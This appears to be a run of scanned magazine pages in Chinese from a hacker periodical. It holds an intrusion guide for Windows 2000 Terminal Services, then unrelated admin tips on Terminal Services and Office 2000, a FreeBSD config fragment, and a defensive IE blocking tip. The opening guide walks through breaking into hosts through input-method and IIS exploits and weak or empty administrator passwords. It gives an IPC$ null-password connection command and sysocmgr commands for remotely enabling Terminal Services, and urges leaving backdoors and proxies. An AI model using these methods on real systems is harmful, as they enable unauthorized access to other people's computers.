#### 一、3389 终端服务入侵的几种方法

- 1. **方法1：输入法入侵。** 通过 Win2000 中文版全拼和郑码输入法漏洞可以用多种方法简单取得系统控制权，笔者认为最快的、一劳永逸的方法是把要用的木马和添加用户的批处理文件先传到个人主页上，然后在跳转 URL 时把木马和批处理文件下载下来，再启动它们就 OK 了（别的方法详见《黑防》前几期）。可惜的是这种风靡一时的傻瓜式方法虽然简单，但到今天已经很老、很少了，绝大多数的此类机子都打了补丁。如果你有足够的耐心，任一大堆开了 3389 的机器上一台台试，成功机率大概是 1%！此外最近的紫光输入法也有类似漏洞（笔者运气不错，曾经用此漏洞进入一台 WinXP），不过可惜的是升级后紫光输入法也改正了这个漏洞。而且只有国内的机子才存在输入法漏洞，所以此法对付不了国外主机。
- 2. **方法2：利用其他 Win2000 和 IIS 漏洞先取得控制权，再从 3389 登录。** 由于终端服务的功能强大，黑客在通过其他途径取得控制权后，为了更好地控制和管理，往往要再利用终端服务。经常利用的 Win2000 和 IIS 漏洞有：NET DDE 漏洞、UNICODE 漏洞、IDA 溢出漏洞（idahack.exe）、.printer 漏洞（iishack.exe）、FRONTPAGE 等。具体的机器具体分析，取得控制权以后，利用窃取的账号或者新加的账号就可以登录终端服务进行图形界面的管理了。
- 3. **方法3：利用弱口令用户登录 3389 终端服务。** 应用此法可以利用国内的经典黑软流光的 IPC$ 的弱口令用户探测功能，很容易就能扫描到许多 administrator 密码为空或密码简单的超级用户，那么你就可以用此账号正大光明地从 3389 进去了。当然还可以用流光扫描 SQL 的弱口令，再通过 SQL 添加 NT 用户，然后从 3389 进去。

文章至此，有人会问：即使通过方法 2、3 取得了一台机子控制权和合法账号，但是你怎么知道该机一定会开了终端服务？你这不是一厢情愿吗？的确，事实上许多我们取得了控制权的 Win 2000 往往没有开终端服务。而我们方法 2、3 所说的情况是在假设开了终端服务的条件下才成立，但是我们为什么不把这个假设变成事实呢？让我们来给它打开终端服务吧！不过要提醒新手们的是 Win2000 Professional 是没有终端服务的，只有 Server 才有。

#### 二、启动远程主机的终端服务

**方法1：** 建立 IPC$ 连接后，利用计算机管理工具启动远程主机的终端服务。此方法的情况是远程主机已安装了终端服务但停止了服务。先决条件是能以管理员的身份建立 IPC$ 连接（对应上述入侵方法 3 的情况）。举例说明：用流光扫描到一台 Win2000 的 administrator 密码为空，并测试后确定是 Win2000 Server。

首先，运行 cmd，输入：`net use \\ip\ipc$ "" /user:administrator`，提示命令完成，表示建立了 IPC$ 连接。注意了，你建立的账号必须是管理员账号，不然就没有权限启动服务。

再打开 Win2000 管理工具中的计算机管理，如图 1，用鼠标右键点击“计算机管理（本地）”，选“连接到另一台计算机”。







然后在“名称（N）”里输入远程主机的 IP，如图 2，按“确定”。由于建立了 IPC$ 连接，过一会儿就能连接到远程主机。

接着，选择“服务和应用程序”中的“服务”。等几分钟后（具体看网速）右边视窗中就列出了远程主机的服务。如图 3，就是远程计算机的服务。找到 Terminal Services，用鼠标右键单击并启动它，等进度条完成后，终端服务就启动了！细心的朋友可能已经看到了别的有趣的东西了，比如 Telnet、日志、共享等等，事实上以管理员身份建立 IPC$ 连接后，利用计算机管理工具可以做许多事，有兴趣的朋友慢慢试吧。

**方法2：** 用无人职守工具 Sysocmgr.exe 在命令行下远程安装终端服务。此方法的情况是远程主机没有安装终端服务。此法先决条件是取得了控制权，能 Telnet 远程执行命令：

```text
c:\>echo [Components] > c:\startTS
c:\>echo TSEnable = on >>c:\startTS
c:\>sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\startTS /q /r
```

如果没有 /r 参数的话，服务器会自动重启。（此法详见《黑防 6》）

如果不能远程执行命令，但能建立 IPC$ 连接并且 C$ 默认共享开放时也可以实现，只要把命令写成批处理文件，然后 Copy 到远程主机的 administrator 的启动文件夹下就行，别忘了在批处理文件最后加上 del 批处理文件的命令。

#### 三、进入以后的注意点

从终端服务进入以后，应该在最短的时间内把要做的事做好：要留后门，做代理，下载要用的……

Windows 的终端服务可是个好东西，管理员用它，黑客们也用它。不过这次我们不讨论入侵，而是讨论使用的技巧，帮助大家解决实际中的问题。



## Windows 2000

文／王智雄

## 终端服务使用技巧

Windows 2000 终端服务器有两种运行模式：“应用程序模式（Application Server Mode）”和“远程管理模式（Remote Administration Mode）”。前者为终端客户提供应用程序共享服务，在此模式下，客户机以仿真终端机的身份访问并显示服务器桌面，还可运行服务器上的应用程序。后者为系统管理员提供了一种远程管理服务器的强有力的方法。系统管理员可以通过任何 TCP/IP 连接对服务器进行远程管理。这两种模式适用于不同的场合，但不能同时运行。

在中小型局域网中，为了简化网络管理、减轻系统管理员负担、降低软件升级和维护的费用，通常使用“应用程序模式”为客户机提供应用程序共享服务。本文主要讨论在该模式下管理网络时常见问题的解决方法。

#### 一、判断终端服务器的运行模式

如前所述，Windows 2000 终端服务器可以运行在“应用程序模式”或“远程管理模式”之下，那么，如何判断终端服务器运行在何种模式之下呢？我们可以使用下述方法。

选择“开始”->“程序”->“管理工具”->“终端服务配置”，点击“服务器设置”，点击左面窗口中的“服务器设置”项，在右面窗口中的“终端服务器模式”行的“属性”列中将显示出当前的模式。

#### 二、在“应用程序模式”和“远程管理模式”之间切换

可以按下述步骤在“应用程序模式”和“远程管理模式”之间切换。

选择“开始”->“设置”->“控制面板”，双击“添加／删除程序”，点击“添加／删除 Windows 组件”图标，在“选择 Windows 组件”对话框中不改变任何选项而直接点击“下一步”，在“终端服务安装程序”对话框中，两种模式都会显示出来，当前运行的模式处于选中状态。你可以直接选择另一模式，然后点击“下一步”，重新启动计算机即可。

#### 三、在安装模式与执行模式之间切换

在 Windows 2000 终端服务器上安装应用程序有两种方式：“安装模式（install mode）”和“执行模式（execute mode）”。这两种安装方式是有区别的，在“安装模式”下安装的应用程序允许所有终端服务用户使用，而在“执行模式”下安装的程序只能由安装该程序的用户使用，其他用户不能使用。因此，如果要为所有用户安装程序，必须要利用“安装模式”来安装。进入“安装模式”的方法有两种：

- 1. **方法一**：利用“控制面板”中的“添加／删除程序”安装应用程序时，可以使终端服务器自动进入“安装模式”。
- 2. **方法二**：可以按下述步骤进行：
  - 1. 选择“开始”->“运行”，输入命令“cmd”后点击“确定”；
  - 2. 在命令行中输入下列命令后回车；
  - 3. 应用程序安装完成后，可以使用下列命令退出“安装模式”而进入“执行模式”；
  - 4. 可以使用下述命令测试终端服务器处于何种模式之下。

```bash
change user /install
change user /execute
change user /query
```

#### 四、使用户从终端服务客户机登录到服务器

在默认情况下，任何一个在终端服务器上建立的用户都具有从终端服务客户机登录到服务器的权利。然而，也可以按下述步骤为一个用户赋予该权利：

- 选择“开始”->“程序”->“管理工具”->“计算机管理”。
- 展开“系统工具”分支及其下的“本地用户和组”分支，然后点击“用户”选项。
- 双击即将要赋予该权限的用户名，在“终端服务配置文件”选项卡中选择“允许登录到终端服务器”复选框后，点击“确定”，关闭“计算机管理”对话框。
- 选择“开始”->“程序”->“管理工具”->“终端服务配置”，打开“连接”文件夹，选择“RDP-Tcp”。
- 选择“操作”->“属性”，在“权限”选项卡中加入需要赋予该权限的用户或组后，点击“确定”。

#### 五、在 Windows 2000 终端服务器上安装 Office 2000 CD1

在 Windows 2000 终端服务器上安装 Office 2000 时，必须在安装之前做一些准备工作，才能使安装顺利完成，否则将会出现如下错误信息：

> “Microsoft Office 2000 安装程序的一些默认设置不能在终端服务器上正常工作。要想在终端服务器上安装 Office 2000，必须要使用 Office 2000 Resource Kit 光盘中或网站 http://www.microsoft.com/office/ork 中所提供的指令和工具。”

因为 Office 2000 在 Windows 2000 终端服务器上安装时，需要使用一个转换程序 termsrvr.mst，当将 Office 2000 光盘插入计算机之后，将自动运行安装程序，从而无法使用该转换程序，因而引起了上述错误。因此，我们应该在安装 Office 2000 时使用转换程序 termsrvr.mst。

在安装 Office 2000 之前，应首先做好以下两项准备工作。

- 1. 终端服务器运行在“应用程序模式”之下，并且已经安装和启动了终端服务功能，以便使多个终端服务客户可以同时使用 Office 2000。
- 2. 已经得到了终端服务转换程序 termsrvr.mst，并且已将其放置于硬盘某一个目录之下。该文件可通过以下几种方式得到：
  - 1. 可以在 Office 2000 Resource Kit 光盘中的 `ORK\PFiles\ORKTools\Toolbox\Tools\TermSrvr` 目录下找到。
  - 2. 如果已安装了 Office 2000 资源工具包，可以在硬盘的 `<drive:>\Program Files\ORKtools\Toolbox\Terminal Server Tool` 目录下找到。其中 `<drive:>` 默认是 Windows 2000 所在磁盘。
  - 3. 如果没有 Office 2000 Resource Kit 光盘，也可以到 Microsoft 公司的网址下载，下载文件名为 orktools.exe，是一个自解压包，其中包含了 termsrvr.mst 文件。下载地址为：http://www.microsoft.com/office/ork/2000/download/ORKTools.exe。

在做好了上述准备工作之后，可以按下述步骤在终端服务器上成功安装 Office 2000 的第一张光盘。

- 1. 在“控制面板”中双击“添加／删除程序”，点击“添加新程序”，然后点击“光盘或软盘”，点击“下一步”按钮，点击“浏览”按钮。
- 2. 在 Office CD1 的根目录下选择 setup.exe 并点击“打开”按钮。setup.exe 将出现在“运行安装程序”对话框的命令行。
- 3. 在“运行安装程序”对话框的命令行输入“setup.exe”命令之后键入一个空格，然后再键入以下内容：

```text
TRANSFORMS=<path>\Termsrvr.mst
```

其中 `<path>` 是存放文件 termsrvr.mst 所在的路径。

- 4. 点击“下一步”按钮，输入用户信息后点击“下一步”按钮。
- 5. 同意最终用户协议后点击“下一步”按钮，点击“安装”按钮。
- 6. 当出现成功安装的信息后，点击“确定”按钮、“下一步”按钮，然后点击“完成”按钮即可。

#### 六、解决在启动终端服务功能后不能使用 Office 2000

在 Windows 2000 服务器上启动终端服务功能后，Office 2000 应用程序可能不能运行。当安装 Office 2000 新组件或第一次使用时需要安装的组件时，将出现以下提示信息：“Microsoft Office”2000 安装程序的一些默认设置不能在 Windows 2000 终端服务器上正常工作。要想在终端服务器上安装 Office 2000，必须要使用 Office 2000 Resource Kit 光盘中或站点 http://www.microsoft.com/office/ork 中的有关指令和工具。

当利用终端服务转换程序重新安装 Office 2000 时，将会出现以下错误信息：“在终端服务器上安装应用程序时必须要进入安装模式。使用控制面板中的‘添加／删除程序’安装应用程序时，可以使终端服务器自动地进入安装模式。”

事实上，你将不能在安装模式下通过控制面板中的“添加／删除程序”安装利用终端服务转换程序 termsrvr.mst 重新安装 Office 2000。

出现这种情况的原因是终端服务功能只能在安装了 Office 2000 之后才能安装。你可以先删除终端服务功能，然后卸载 Office 2000，接下来再启动终端服务功能，再利用终端服务转换文件重新安装 Office 2000。具体操作步骤如下：

- 1. **删除终端服务功能**

选择“开始”->“设置”->“控制面板”，双击“添加／删除程序”，点击“添加／删除 Windows 组件”，清除“终端服务”和“终端服务授权”复选框中的选中标记，点击“下一步”按钮，若提示重新启动计算机，则重启计算机。

- 2. **卸载 Office 2000**

选择“开始”->“设置”->“控制面板”，双击“添加／删除程序”，在当前已安装的应用程序列表中选中 Office 2000，然后点击“删除”按钮。点击“是”按钮确认后，即删除 Office 2000。

- 3. **启动终端服务功能**

选择“开始”->“设置”->“控制面板”，双击“添加／删除程序”，点击“添加／删除 Windows 组件”，选择“终端服务”。如果需要，还可以选择“终端服务授权”，点击“下一步”按钮，选择“应用程序服务器模式”。选择“与 Windows 2000 用户兼容的权限”，然后点击“下一步”按钮。如果选择了“终端服务授权”选项，需要指定相关信息将计算机安装为许可证服务器，然后点击“下一步”按钮。点击“完成”按钮即可进行安装，如果需要，可重启计算机。

- 4. **安装 Office 2000**

使用终端服务转换程序 termsrvr.mst 安装 Office 2000，这一安装过程与问题 5 中所述安装过程相同，不再重述。

以上一些方法是我在实际学习和操作过程中得出来的，希望对大家有所帮助。

（上接 26 页）

autoexec.bat 文件。我们可以向其中加入我们想在开机时启动的程序。这个文件不做过多的解释。

#### 6. /etc/rc.conf 文件

修改该文件可以设置本机 IP、mask 值和机器名等等。

文件内容如下：

```text
# -- sysinstall generated deltas -- #
# Created: Thu Apr 4 21:35:07 2002
# Enable network daemons for user convenience.
# This file now contains just the overrides from /etc/defaults/rc.conf
# please make all changes to this file.
defaultrouter="192.168.0.1"  # 默认路由
hostname="adver"            # 主机名
ifconfig_lnc0="inet 192.168.0.2 netmask 255.255.255.0"  # 本机 IP 和 mask 值
ipv6_enable="YES"
linux_enable="YES"
nfs_server_enable="YES"
usbd_enable="YES"
```

#### 7. /etc/protocols 文件

该文件提供了一个 DARPA 的因特网协议列表。该文件的内容不可以自行修改。

#### 8. /etc/resolv.conf 文件

该文件可以设置 DNS 转向服务器。设置该文件可以让 FreeBSD 支持直接访问域名。

文件内容如下：

```text
nameserver 192.168.0.1
```

etc 目录下的配置文件还有很多。这次先简单给大家提到这些，下次再给大家一一介绍。


### 巧用 IE 的分级审查

#### 拒绝恶意网站

文／志勇

现在恶意网站有增多的趋势，他们的行为很招人反感，开始时仅仅修改 IE 的主页，篡改 IE 的标题，如 IE 窗口的标题原来是“欢迎访问黑客防线——Microsoft Internet Explorer”，被恶意网站改为：“欢迎访问黑客防线——欢迎访问*****，www.***.com”，让人生厌。这还好办，解决办法大家都知道。可是后来这类恶意网站做得越来越过分了：点击按钮弹出无限 IE 窗口，使 IE 速度变慢，冻结 IE 的窗口，格式化访问者的硬盘，恶意修改注册表，使 Win95/98/Me 死机，使 IE 拒绝服务，访问者的硬盘被共享……有关上述现象的描述，大家可以看看《黑客防线》2002 年第 4、5 期劲风朋友的文章《网页恶意代码大曝光》，在此笔者就不赘述了。

对付这类网站，一般都是修改注册表（现在一般都有专用的工具，如兔子魔法、金山的一个专用工具等）、进行 IE 设置，初级菜鸟看后多半会一愣一愣的（笔者没有贬低菜鸟的意思）。不过，即使这样辛辛苦苦修改完了，以后万一不小心又访问了该网站，岂不是又重蹈覆辙？

笔者在此讲述利用 IE 的分级审查功能来拒绝恶意网站，那些高手就不要看了吧，呵呵，本来就是给菜鸟们看的。*^o^*

Internet 是提供各类信息的广阔天地。但是，并非所有信息都适合浏览者。例如，要禁止小孩查看包含暴力或性等内容的网站。为此，微软公司在 IE 中添加了分级审查功能。

想想看，其实我们可以用分级审查的功能来拒绝恶意网站。只要我们网友互相交流互为补充，列个恶意网站黑名单，拒绝访问它们就可以了。

要使用分级审查功能，在“控制面板”中，打开 Internet 选项。

在“内容”选项卡上，在“分级审查”中，单击“启用”按钮（图 1）。



图 1

如果已经启用“分级审查”（按钮显示为“禁用(E)…”的时候），请单击“设置”按钮，然后键入监督人密码（图 2）。



图 2

单击“许可站点”选项卡（图 3），在“允许该网站”中键入恶意网站的 Internet 地址，然后点击右边的“从不”按钮，让访问者从不能访问该恶意站点。对需要设置拒绝访问的每个恶意网站都重复该过程。

如果此前没有设置过监督人密码的话，这时候会让你设置一个（图 4），完成以后弹出提示窗口（图 5）。

这样，就可以预防登录被列入黑名单的恶意网站了。当访问者登录已被列入黑名单的网站的时候，IE 会自动弹出这个窗口拒绝登录这个网站（图 6）——我们的目的达到了。



